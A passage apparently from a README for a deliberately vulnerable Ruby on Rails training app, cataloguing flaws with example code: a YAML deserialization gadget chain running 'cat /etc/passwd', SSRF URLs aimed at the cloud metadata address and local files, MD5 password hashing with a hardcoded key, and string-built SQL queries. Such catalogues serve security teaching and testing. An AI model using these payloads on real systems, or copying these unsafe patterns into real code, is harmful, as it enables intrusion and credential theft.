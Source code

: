 ### 10. Remote Code Execution via YAML
```ruby
# Unsafe YAML parsing
def import_settings
  YAML.load(params[:config])
end

# Attack
---
!ruby/object:Gem::Installer
  i: x
!ruby/object:Gem::SpecFetcher
  i: y
!ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
      io: &1 !ruby/object:Net::BufferedIO
        io: !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "system('cat /etc/passwd')"
```

### 11. Server-Side Request Forgery (SSRF)
```ruby
def fetch_url
  open(params[:url]).read
end

# Attack
http://localhost:3002/fetch?url=http://169.254.169.254/latest/meta-data/
http://localhost:3002/fetch?url=file:///etc/passwd
```

### 12. Weak Cryptography
```ruby
# MD5 for passwords
Digest::MD5.hexdigest(params[:password])

# Weak encryption key
encrypt_data(data, key: "secret123")
```

## Rails-Specific Vulnerabilities

### 1. Unsafe Query Methods
```ruby
# SQL injection prone methods
User.find_by_sql("SELECT * FROM users WHERE name = '#{name}'")
User.where("id = #{id}")
User.order("#{params[:sort]} #{params[:direction]}")
```
